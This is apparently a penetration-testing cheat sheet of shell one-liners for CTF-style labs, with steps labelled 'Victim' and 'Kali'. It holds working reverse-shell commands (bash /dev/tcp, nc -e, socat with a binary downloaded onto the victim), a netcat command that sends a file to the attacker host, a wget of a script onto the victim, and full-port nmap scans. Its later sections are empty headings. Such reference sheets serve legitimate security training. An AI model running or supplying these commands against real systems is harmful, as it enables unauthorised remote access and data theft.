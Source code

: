 # Useful Commands

## Create web server

### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

## Upgrade reverse shell

### With Socat

**Victim:** 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
**Kali:**
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

### With Python

**Victim:** 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## Send files

### With netcat

Victim: ```cat file.txt | nc -q 0 10.10.10.10 4444```

Kali:   ```nc -lvp 4444 > file.txt```

### With web server

Kali: ```python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 8888```

Victim: ```wget http://10.10.10.10:8888/something.sh -O something.sh```

## Reverse shells

### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

```
nc -lvp 4444
```

### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

```
nc -lvp 4444
```

# Enumeration

### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

# Privilege Escalation

# Some Scripts

# References
